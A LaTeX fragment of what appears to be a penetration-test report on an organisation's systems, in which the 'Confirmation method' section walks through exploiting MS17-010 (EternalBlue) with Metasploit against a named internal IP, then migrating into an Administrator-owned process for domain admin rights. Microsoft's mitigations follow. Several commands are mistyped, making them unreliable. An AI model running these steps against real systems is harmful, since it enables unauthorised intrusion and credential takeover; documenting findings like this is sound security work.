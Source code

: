 \documentclass[notitlepage]{article}
\begin{document}
	\subsubsection{Confirmation method}
	To confirm if your system is vulnerability, \\
	. To confirm exploit, you need Kali linux and metasploit.\\
	. Start metaspolit and metaspolit database. \textbf{msfconsole -1} and \textbf{msfdb -init} to start them.\\
	. In metasploit, type \textbf{search eternal blue.}  \\
	. Select "exploit//windows//smb//ms17\_010\_psexece Windows Code Execution" \\
	. Set the RHOST to 10.70.184.89. \\
	. Run exploit by typing \textbf{exploit.}\\
	. The exploit should run and now and give you access to the system. \\
	. To gain the domain admin credentials. Run ps to have all processes listed. Look up 'ServerManager.exe' with the "ARTSTAILOR\\Administrator" and record the PID.\\
	. Use meterpreter command \textbf{migrate (PID)}.\\
	. Type \textbf{getuid} and you will see that you now have administrative privileges.\\ 
		
	\subsubsection{Mitigation or Resolution Strategy}
	\indent The following are recommendations from Microsoft. \\
	. Disable SMBv1 on the affect computer. \\
	. Install update 2919355 from Microsoft, this removes the vulnerability. \\  
	
	\section{Attack Narrative}
	
\end{document}

